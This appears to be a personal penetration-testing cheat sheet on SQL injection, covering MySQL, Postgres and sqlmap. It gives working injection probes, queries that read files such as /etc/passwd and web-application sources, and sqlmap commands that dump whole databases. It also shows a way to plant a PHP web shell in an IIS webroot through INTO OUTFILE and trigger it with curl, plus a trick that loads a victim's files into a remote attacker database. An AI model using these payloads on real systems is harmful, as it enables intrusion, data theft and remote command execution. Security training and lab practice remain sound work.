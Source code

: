 ## Database too big to navigate inside ? Use UI

- dbeaver

---

## Main example

- Try directly in the url, or in the data sent :
- ' 
- ' -- -
- ' order by 1-- -
- increase this until you found the number of field you can control
- 'union select 1,2,... -- -
- Then in the field you can see, inject whatever you want
- Use the payloads from payloadallthethings

### Find information about the database

- type in google information schema \<type_of_db(mysql for example)\>

- Information Gathering for SQLI : https://sqlwiki.netspi.com/attackQueries/informationGathering/#mysql


### Subquerry returns more than 1 row :

- ```select group_concat(<your_query(for example scheme_data>)```

### Want to have a better view 

- add separator to your query : ```SEPARATOR '\n'```

### Load file

*MySQL*
- Windows : ```select concat("\n\n", TO_BASE64(LOAD_FILE("C:\\\\inetpub\\\\wwwroot\\\\admins.php")),"\n\n")```
- Linux : `SELECT LOAD_FILE('<file>') AS Result;`
*Postgres*
- ```
CREATE TABLE <table>(<field> text);
COPY <table> from '<filename>';
SELECT * from <table>;


### Reverse shell

- ```union select "test",2,3 INTO OUTFILE "C:\\\\inetpub\\\\wwwroot\\\\test.txt"```

- Hit this two times
- If it works :
- ```"<pre><?php system($_GET['cmd']); ?></pre>" INTO OUTFILE 'c:/inetpub/wwwroot/7868768678.php'```
- ```curl ...?cmd=whoami```
- you can replace by ```INTO DUMPFILE```

---

## SQLMAP

### Use injection found before with burpsuite

- Note that it is not working well with the sqlmap download from source on arch linux. If so, download from git directly the binary.

- right click, copy to a file (from intruder window)

- delete the part you inject (the ' too)

- ```sqlmap -r \<file\> --technique=U --batch --dump-all```

- Here the technique used is Union because we found it before, but there are others available (BEUST)

- If you don't know the type of injection : ```sqlmap -r <file> -p productName --dbs```
- or ```sqlmap -r <file> --threads=10 --dbs```

- add ```--batch``` to skip all the questions

- Then, you have the databases, go and see what tables are inside : ```sqlmap -r <file> -D <database> --tables```
- Then dump the needed table : ```sqlmap -r <file> -D <database> -T <table> --dump

### Reverse shell with sqlmap

- On mysql we can check if we have the permission to write on disk with following commands

	
- ```sql-shell> select @@secure_file_priv;```
	
- ```sql-shell> select @@global.secure_file_priv;```


- If their content is empty it’s mean we can !

- Usually the root of the IIS application is at c:/inetpub/wwwroot/ so I tried

	
- ```sql-shell> SELECT "<pre><?php system($_GET['cmd']); ?></pre>" INTO OUTFILE 'c:/inetpub/wwwroot/7868768678.php'```

- and now testing if it was successfully written

	
- ```curl "http://10.10.10.167/7868768678.php?cmd=whoami"```

---

## Remote access to an sql database

https://www.linode.com/docs/databases/mariadb/mariadb-setup-debian/

- edit my.cnf.d/server.cnf with the bind address

- create a database and a table :

```
create database exploit;
use exploit;
create table dmp(content varchar(5000));
```


- Then see if you can load file from victim machine :

```
LOAD DATA LOCAL INFILE '/etc/passwd' 
INTO TABLE test.test
FIELDS TERMINATED BY "\n"
```

---

## Lot of stuff

https://sushant747.gitbooks.io/total-oscp-guide/sql-injections.html

---

## Login and password of mysql database and connected on the machine ?

- ```mysqldump --databases <database> -u<user> -p<password>```

## Look into juicy files in mysql

`/var/lib/mysql/mysql/*` , `/var/lib/mysql-files/*`
	
## Postgres

- Access to the console : `psql`

- List the databases : `\list`

- Select the database `\c <database>`

- List the tables : `\d`

- Then `SELECT ...`
